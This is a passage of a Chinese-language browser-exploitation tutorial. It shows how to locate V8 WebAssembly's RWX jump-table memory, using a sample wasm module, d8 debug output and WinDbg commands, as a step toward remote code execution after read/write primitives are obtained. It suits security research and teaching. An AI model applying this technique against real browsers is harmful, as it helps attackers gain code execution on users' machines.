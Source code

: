 通过这个指针指向的内存就可以通过读写原语实现远程代码执行。
# 利用WebAssembly内存
首先编写一些wasm代码方便了解它在内存中的结构。
编写 wasm 代码的一种简单方法是使用 [WasmFiddle](https://wasdk.github.io/WasmFiddle/)，它允许我们编写 C 代码并获取代码缓冲区的输出以及运行它所需的 JavaScript 代码。使用默认代码返回 42 ，我们得到以下 JavaScript 代码。
```
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule);
var func = wasmInstance.exports.main;
```
在 wasm 代码的最后一行，我们将 func 变量设置为该 wasm 实例的主要导出，它将指向我们的可执行文件 wasmCode 。
我们可以对 wasmInstance 变量使用 %DebugPrint，该变量将是容纳函数导出的可执行模块对象
在d8中我们对上述代码进行调试
```C
d8> %DebugPrint(wasmInstance)
DebugPrint: 0000001542AA62F1: [WasmInstanceObject] in OldSpace
 - map: 0x00819a10ae51 <Map(HOLEY_ELEMENTS)>
 - module_object: 0x03a693410271 <Module map = 000000819A10A8B1>
 - exports_object: 0x03a6934104e9 <Object map = 000000819A10C3E1>
 - native_context: 0x001542a839f9 <NativeContext[248]>
 - memory_object: 0x001542aa63f1 <Memory map = 000000819A10B851>
 - imported_function_instances: 0x03d818a82cf1 <FixedArray[0]>
 - imported_function_callables: 0x03d818a82cf1 <FixedArray[0]>
 - managed_native_allocations: 0x03a693410479 <Foreign>
 - memory_start: 000001ECE84F0000
 - memory_size: 65536
 - memory_mask: ffff
 - imported_function_targets: 000001EC6591E700
 - globals_start: 0000000000000000
 - imported_mutable_globals: 000001EC67C16320
 - indirect_function_table_size: 0
 - indirect_function_table_sig_ids: 0000000000000000
 - indirect_function_table_targets: 0000000000000000
```
分析输出后，我们可以看到没有引用代码或跳转表。然而，如果我们查看 [WasmInstanceObject](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/wasm/wasm-objects.h;l=327) 的 V8 代码，我们将看到我们的函数有一个`jump_table_start`的访问器。该条目应指向存储机器代码的 RWX 内存区域
在V8中，这个`jump_table_start`条目有一个偏移量，但它在V8版本之间定期变化。因此，我们需要手动定位该地址在 WasmInstanceObject 中的存储位置。
为了帮助我们找到该地址在 WasmInstanceObject 中的存储位置，我们可以在 WinDbg 中使用 !address 命令来显示有关 d8 使用的内存的信息过程。由于我们知道`jump_table_start`地址具有RWX权限，因此我们可以通过 [PAGE_EXECUTE_READWRITE](https://learn.microsoft.com/en-us/windows/win32/memory/memory-protection-constants)保护常量过滤地址输出，以查找任何新创建的RWX内存区域。
>在WinDbg调试工具中，!address命令用于显示当前进程的虚拟内存布局信息，包括可用内存、保留内存、已提交内存和内存映射文件等。
>!address命令的语法如下：!address [-{a|r|c|t|s|u|v|w}] \[Address\]
>!address -f:PAGE_EXECUTE_READWRITE命令用来过滤并显示当前进程中可执行和可写的内存区域信息，即满足PAGE_EXECUTE_READWRITE属性的内存区域。

```
0:009> !address -f:PAGE_EXECUTE_READWRITE                              
        BaseAddress      EndAddress+1        RegionSize     Type       State                 Protect             Usage
--------------------------------------------------------------------------------------------------------------------------
      2e`25980000       2e`25990000        0`00010000 MEM_PRIVATE MEM_COMMIT  PAGE_EXECUTE_READWRITE             <unknown>  [I.........A....D]
```
此时地址0x2e25980000似乎为RWX内存区域的跳转表入口，让我们检查一下WinDbg 中 wasmInstace 对象地址的内存内容来验证 WasmInstanceObject 是否确实存储了该指针。0000001542AA62F1为wasmInstace地址
```C
0:009> dq 0000001542AA62F1-1 L22
00000015`42aa62f0  00000081`9a10ae51 000003d8`18a82cf1
00000015`42aa6300  000003d8`18a82cf1 000003a6`93410271
```